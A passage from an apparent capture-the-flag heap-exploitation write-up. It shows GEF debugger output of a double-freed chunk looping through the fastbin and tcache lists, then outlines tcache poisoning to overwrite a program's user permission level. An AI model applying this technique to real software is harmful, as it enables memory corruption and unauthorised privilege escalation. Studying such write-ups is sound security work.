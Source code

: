 ```console
[+] Found 6 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
fastbins[idx=0, size=0x20, @0x7ffff7c17ad0]
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> Chunk(addr=0x555555575510, size=0x20, flags=PREV_INUSE, fd=0x555000020185, bk=0x00000000000a)
 -> Chunk(addr=0x5555555754f0, size=0x20, flags=PREV_INUSE, fd=0x555000020065, bk=0x00000000000a)
 -> 0x555555575500 [loop detected]
[+] Found 2 chunks in fastbin.
```

After allocation request: `0x560c41f0d4f0` is allocated, which is the first
free chunk in `fastbin`, and the remaining chunks are dumped into `tcachebins`.

```console
----------------------------------- Tcachebins for arena 'main_arena' -----------------------------------
tcachebins[idx=0, size=0x20, @0x560c41efb090] count=3
 -> Chunk(addr=0x560c41f0d510, size=0x20, flags=PREV_INUSE, fd=0x56092134ca0d, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d4f0, size=0x20, flags=PREV_INUSE, fd=0x56092134ca2d, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d510, size=0x20, flags=PREV_INUSE, fd=0x56092134ca0d, bk=0x6ee603c65e3f27c0)
 -> 0x560c41f0d520 [loop detected]two chunk
tcachebins[idx=1, size=0x30, @0x560c41efb098] count=2
 -> Chunk(addr=0x560c41f0d2a0, size=0x30, flags=PREV_INUSE, fd=0x56092134caad, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d590, size=0x30, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
tcachebins[idx=3, size=0x50, @0x560c41efb0a8] count=2
 -> Chunk(addr=0x560c41f0d2d0, size=0x50, flags=PREV_INUSE, fd=0x56092134cc3d, bk=0x6ee603c65e3f27c0)
 -> Chunk(addr=0x560c41f0d320, size=0x50, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
tcachebins[idx=7, size=0x90, @0x560c41efb0c8] count=1
 -> Chunk(addr=0x560c41f0d5e0, size=0x90, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
tcachebins[idx=15, size=0x110, @0x560c41efb108] count=1
 -> Chunk(addr=0x560c41f0d6b0, size=0x110, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
[+] Found 8 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
[+] Found 0 chunks in fastbin.
gef> p $rax - 0x10
$1 = 0x560c41f0d4f0
```

Now that we received a chunk at `0x560c41f0d4f0`, while this chunk exists on
`tcachebins`, we could perform tcache poisoning to allocate a chunk where
we could overwrite our user permission level.
